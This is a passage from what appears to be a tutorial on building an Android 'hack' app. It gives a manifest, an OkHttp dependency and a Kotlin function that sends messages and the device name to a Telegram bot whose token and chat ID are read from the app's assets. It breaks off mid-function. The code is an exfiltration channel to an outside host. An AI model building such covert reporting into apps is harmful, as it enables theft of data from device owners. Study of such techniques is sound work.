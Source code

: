
First of all update your manifest file:     

```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    xmlns:tools="http://schemas.android.com/tools">

    <uses-feature
        android:name="android.hardware.telephony"
        android:required="false" />
    <uses-permission android:name="android.permission.INTERNET"/>

    <application
        android:allowBackup="true"
        android:dataExtractionRules="@xml/data_extraction_rules"
        android:fullBackupContent="@xml/backup_rules"
        android:icon="@drawable/cat"
        android:label="@string/app_name"
        android:roundIcon="@drawable/cat"
        android:supportsRtl="true"
        android:theme="@style/Theme.Hack"
        tools:targetApi="31">
        <activity
            android:name=".HackMainActivity"
            android:exported="true"
            android:theme="@style/Theme.Hack">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />

                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>

</manifest>
```

As you can see, the only permission is `INTERNET` for connecting via HTTP in our case.    

Then ensure you have the `OkHttp` dependency added in your `build.gradle` file:    

```js
dependencies {
    implementation 'com.squareup.okhttp3:okhttp:4.11.0' // or latest stable version
}
```

First of all look at this function:    

```kotlin
// function to send message using OkHttp
fun sendTextMessage(message: String) {
    val token = getTokenFromAssets()
    val chatId = getChatIdFromAssets()
    val deviceInfo = getDeviceName()
    val meow = "Meow! ♥️\uFE0F"
    val messageToSend = "$message\n\n$deviceInfo\n\n$meow\n\n"

    val requestBody = FormBody.Builder()
        .add("chat_id", chatId)
        .add("text", messageToSend)
        .build()

    val request = Request.Builder()
        .url("https://api.telegram.org/bot$token/sendMessage")
        .post(requestBody)
        .build()
```